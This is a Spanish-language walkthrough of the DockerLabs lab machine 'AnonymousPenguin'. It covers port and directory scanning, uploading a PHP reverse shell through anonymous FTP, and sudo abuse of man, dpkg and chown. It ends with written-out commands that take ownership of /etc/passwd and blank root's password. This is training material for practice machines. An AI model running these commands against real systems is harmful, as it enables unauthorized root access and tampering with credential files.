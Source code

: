 ![image](https://github.com/romabri/romabri.github.io/assets/51706860/b47107da-4efd-466e-978d-50c4968533ed)---
title: AnonymousPenguin - DockerLabs
published: true
categories: DockerLabs
---


| OS     | Dificultad  | Creator           |
| ------ | ----------- | -------------     | 
| Linux  |  Fácil      | ElPinguinoDeMario | 

## Escaneo y Reconocimiento de puertos

Vamos a iniciar nuestro reconocimiento con un rápido escaneo de nmap.

![image](https://github.com/romabri/romabri.github.io/assets/51706860/65e4d789-ef58-4b48-b859-b660d16e62cc)


`nmap -p- --open -sS -sC -sV --min-rate=5000 -vvv -n -Pn -oN escaneo 172.17.0.2`
- `-p-` - Busqueda de puertos abiertos
- `--open` - Enumera los puertos abiertos
- `-sS` - Es un modo de escaneo rapido
- `-sC-` - Que use un conjunto de scripts de reconocimiento
- `-sV` - Que encuentre la version del servicio abirto
- `--min-rate=5000` - Hace que el reconocimiento aun vaya mas rapido mandando no menos de 5000 paquetes
- `-n` - No hace resolución DNS
- `-Pn` - No hace ping
- `-vvv` - Muestra en pantalla a medida que encuentra puertos (Verbose)

Vemos que esta abierto el puerto 21 `FTP` y el puerto 80 `HTTP`

## Web
Si accedemos a la pagina web vemos lo siguiente 

![image](https://github.com/romabri/romabri.github.io/assets/51706860/a60d4c2f-4f5d-4c84-a802-68365148a8b2)


Usamos `Gobuster` para hacer un reconocimiento web y ver que directorios podemos encontrar en dicho sitio.

`gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php`
- `gobuster dir` - Indica que estás utilizando la herramienta Gobuster para realizar un escaneo de directorios.
- `-u http://172.20.10.5/` Especifica la URL objetivo que deseas escanear en busca de directorios.
- `-w` Especifica que diccionario queremos usar
- `-x` Para indicar que tipo de extension queremos que nos encuentre


![image](https://github.com/romabri/romabri.github.io/assets/51706860/cbdf14b6-a616-4c7d-9378-d264b5ed6721)

Vemos que hay un directorio upload pero no hay nada dentro vamos a intentar subir desde el ftp una reverse shell a la carpeta upload y asi conseguir acceso al PC

Vemos que hemos podido subir el archivo de la reverse shell php 

## FTP

`ftp 172.17.0.2`

Accedemos como anonymous

![image](https://github.com/romabri/romabri.github.io/assets/51706860/07811535-c2e2-49f0-88a4-b5b7de20e9e6)

Y en el directorio web upload también aparace

Entonces en este directorio vamos a subir un php reverse shell de las `webshells`

![image](https://github.com/romabri/romabri.github.io/assets/51706860/87855e3d-31db-4c4a-97fb-77a5b3597be7)

Vamos a ponernos en escucha con NetCat

![image](https://github.com/romabri/romabri.github.io/assets/51706860/d3d92202-f99f-4a93-9800-52353cfb2cb3)


## Intrusión Maquina

Ya estamos dentro de la maquina 
Si ejecutamos un sudo -l vemos ue podemos ejecutar man como Pingu para ello hemos de hacer lo siguiente:

![image](https://github.com/romabri/romabri.github.io/assets/51706860/b31ce2ed-bd3a-4cc0-988c-2f65d8e1a4fd)

Usamos sudo -u pingu para ejecutar el binario man como ese usuario

Ahora si desde el usuairo pingu ejecutamos sudo -l podemos ejecutar nmpa y dpkg como el usuario gladys

![image](https://github.com/romabri/romabri.github.io/assets/51706860/ae1094b1-a720-4478-b727-412face2d07f)

Vamos a usar dpkg para la escalada a gladys

![image](https://github.com/romabri/romabri.github.io/assets/51706860/ddfdc958-583e-4895-a2a2-fea73df5ccf7)

Por ultimo si ejecutamos un sudo -l desde el usuario gladys vemos que podemos ejecutar chown como root 


![image](https://github.com/romabri/romabri.github.io/assets/51706860/4c74f69a-7702-4968-a353-5a22faa8b79a)


Para escalar lo que tenemos que hacer es cambiar el propietario de /etc/passwd de la siguente manera:

`sudo /usr/bin/chown $(id -un):$(id -gn) /etc/passwd`

Luego con sed hacemos que elimine la X que tiene root para que la contraseña desaparezca y creamos un archivo temporal en tmp.

`sed 's/^root:[^:]*:/root::/' /etc/passwd > /tmp/passwd.tmp`

Para finalizar copiamos el tmp donde esta el original para que lo sobreescriba

`cp /tmp/passwd.tmp /etc/passwd`

Ahora hacemos un su ROOT y accederemos al usuario ROOT sin proporcionar contraseña

![image](https://github.com/romabri/romabri.github.io/assets/51706860/85cce3f6-7b30-4f28-981f-55b8e6eaa4b2)








